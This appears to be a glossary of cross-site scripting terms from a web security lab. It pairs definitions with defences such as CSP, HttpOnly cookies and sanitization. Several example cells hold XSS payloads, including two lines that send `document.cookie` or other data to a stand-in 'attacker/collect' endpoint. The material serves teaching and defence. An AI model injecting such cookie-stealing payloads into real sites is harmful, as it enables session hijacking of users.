 ## Glossary — Key Terms & Definitions

| Term | Definition | Example / Notes |
|---|---|---|
| XSS (Cross‑Site Scripting) | A class of vulnerability where an application includes untrusted data in a page that the browser executes as code. | `<script>alert(1)</script>` executed when a page loads. |
| XSS vector | The input or entry point an attacker uses to inject malicious content. | Comment fields, URL parameters, file uploads. |
| Payload | Malicious script or markup injected by an attacker. | `new Image().src="https://attacker/collect?c="+document.cookie` |
| Stored XSS | XSS where payload is persisted on the server and served to other users later. | Comment saved in DB then executed for all viewers. |
| Reflected XSS | XSS where payload is immediately reflected in a response (often via URL), requiring victim to click a crafted link. | `?q=<script>...</script>` in a search page. |
| DOM‑based XSS | XSS that occurs entirely in client‑side JavaScript (no server-side injection). | `location.hash` → `innerHTML` without sanitization. |
| Source (DOM) | Where attacker‑controlled data originates in the client (e.g., `location`, `document.cookie`). | `location.search`, `postMessage` data. |
| Sink (DOM) | The API that causes execution when given attacker data (e.g., `innerHTML`, `eval`). | `element.innerHTML = tainted` triggers execution. |
| Contextual output encoding | Escaping output according to the context (HTML, attribute, JS, URL, CSS). | `htmlspecialchars()` for HTML body text. |
| Sanitization | Removing or filtering dangerous HTML/attributes, usually via a sanitizer library with an allowlist. | DOMPurify used to clean rich HTML. |
| HttpOnly cookie | A cookie flag that prevents JavaScript from reading the cookie via `document.cookie`. | Primary defense against JS-based cookie theft. |
| Secure cookie | A cookie flag that allows sending the cookie only over HTTPS. | Prevents cookie over plaintext HTTP. |
| SameSite | Cookie attribute limiting cross-site sending of cookies (`Lax`, `Strict`, `None`). | Mitigates some CSRF/exfiltration vectors. |
| Content Security Policy (CSP) | HTTP header that restricts allowed script sources, inline scripts, and network destinations. | `Content-Security-Policy: default-src 'self';` |
| Nonce / Hash (CSP) | A per-response token or hash allowing specific inline scripts under CSP. | Use `nonce-...` to permit approved inline scripts. |
| Template engine | Server-side tool that renders templates and ideally auto-escapes variables. | Jinja2, Handlebars, Razor — enable autoescape. |
| Rich‑text editor | Client-side WYSIWYG editor that outputs HTML (must be sanitized server-side). | CKEditor, TinyMCE — sanitize server-side. |
| Encoder | Library/function that escapes data for a specific context. | HTML encoder, JS-string encoder, URL encoder. |
| Cookie theft / exfiltration | Action of sending readable cookies or tokens to an attacker-controlled endpoint. | `fetch('https://attacker/collect',{method:'POST',body:...})` |
| Session hijacking | Using stolen session tokens/cookies to impersonate a user. | Replay stolen session cookie in another browser. |
| Input validation | Checking incoming data for allowed format/values (defense-in-depth). | Reject overly long or malformed inputs. |
| Output escaping | The act of encoding data right before rendering into a specific context. | Always escape before writing into HTML. |
| Principle of least privilege | Design principle: give users/components the smallest privileges necessary. | Limit what a script or user can do. |
| Allowlist (whitelist) | A safe list of permitted tags/attributes when sanitizing HTML. | Allow `<b>`, `<i>`, disallow `<script>`. |
| Defense‑in‑depth | Multiple layers of security controls (client + server + headers + cookies). | Combine sanitization, HttpOnly cookies, CSP, and logging. |



# Learning objectives for this lab

